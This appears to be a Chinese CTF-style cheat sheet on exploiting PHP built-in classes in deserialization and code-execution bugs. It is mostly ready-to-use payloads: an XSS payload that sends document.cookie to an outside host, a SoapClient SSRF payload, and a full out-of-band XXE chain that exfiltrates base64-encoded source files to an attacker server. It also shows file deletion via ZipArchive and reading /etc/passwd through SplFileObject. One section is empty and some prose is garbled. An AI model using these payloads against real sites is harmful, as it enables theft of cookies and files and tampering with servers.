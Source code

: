 https://www.anquanke.com/post/id/238482#h2-0
## 常见的内置类：
```
Error,Exception
SoapClient
DirectoryIterator
SimpleXMLElement
```

## Error 类

### 简单命令执行

我们的 Error 类的利用其实来说是能够在存在 `rce` 漏洞的情况下，来实现我们的“任意字符串获得”，说来很抽象，但是我们有一个具体的例子：
```
$class = new $a($b[0],$b[1]);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
echo $str1;
echo $str2;
echo($str1($str2));
?>
```

对应 payload
```
$e = new Exception("systemid");
echo $e->getMessage();
```

### XSS 漏洞
这个时候，我们一定是希望我们的结果是可控的，于是，我们就可以让我们的通过构造我们的类为 `Exception` 或者 `Error`，然后来构造我们的一个 `XSS` 漏洞。
```
<?php $a = new Error("<script>alert('xss')</script>"); $b = serialize($a); echo urlencode($b); ?>

--获得我们的对应信息
<?php $poc = new Exception("<script>window.open('http://de28dfb3-f224-48d4-b579-f1ea61189930.node3.buuoj.cn/?'+document.cookie);</script>"); echo urlencode(serialize($poc)); ?>
```

### 哈希绕过


## SoapClient 
### SSRF ：
在我们构造出来一个 `SoapClient` 类的时候，内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。


对应的payload
```
<?php $a = new SoapClient(null,array('location'=>'http://47.xxx.xxx.72:2333/aaa', 'uri'=>'http://47.xxx.xxx.72:2333')); $b = serialize($a); echo $b; $c = unserialize($b); $c->a(); // 随便调用对象中不存在的方法, 触发__call方法进行ssrf ?>
```


## SimpleXMLElement
通过设置第三个参数 data_is_url 为 `true`，我们可以实现远程 xml 文件的载入。第二个参数的常量值我们设置为 `2` 即可。第一个参数 data 就是我们自己设置的 payload 的 url 地址，即用于引入的外部实体的 url。这样的话，当我们可以控制目标调用的类的时候，便可以通过 SimpleXMLElement 这个内置类来构造 XXE。

Payload:

首先，我们在 vps（47.xxx.xxx.72）上构造如下 evil.xml、send.xml 和 send.php 这三个文件。
```
---evil.xml
<?xml version="1.0"?> <!DOCTYPE ANY[ <!ENTITY % remote SYSTEM "http://47.xxx.xxx.72/send.xml"> %remote; %all; %send; ]>

---send.xml：
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> <!ENTITY % all "<!ENTITY % send SYSTEM 'http://47.xxx.xxx.72/send.php?file=%file;'>">

---send.php
<?php file_put_contents("result.txt", $_GET['file']) ; ?>
```

```
/show.php?module=SimpleXMLElement&args[]=http://47.xxx.xxx.72/evil.xml&args[]=2&args[]=true
```

## ZipArcive
### 删除文件：
PHP ZipArchive 类是 PHP 的一个原生类，它是在 PHP 5.20之后引入的。ZipArchive 类可以对文件进行压缩与解压缩处理。我们可以利用 ZipArchive 原生类调用 open 方法删除目标主机上的文件。

```
ZipArchive::open($filename, ZipArchive::OVERWRITE)
```

## SplFileObject
### 简单命令执行：
我们对于上述的问题，我们可以通过构造下面的方法，来让我们的变量取到我们的一个固定值：
```
$c=new SplFileObject("data://text/plain,(你需要的字符串信息)")
$vul=$c->current();
```




### 读文件
```
$c=new SplFileObject("文件名");
	echo $c;
```

```
$c=new SplFileObject("php://filter/read=convert.base64-encode/resource=文件名")
echo $c;
```

但我们的缺点是只能读一行，如果我们想要完整的读的话，我们需要用下面的方法！：
```
<?php $context = new SplFileObject('/etc/passwd'); foreach($context as $f){ echo($f); }
```


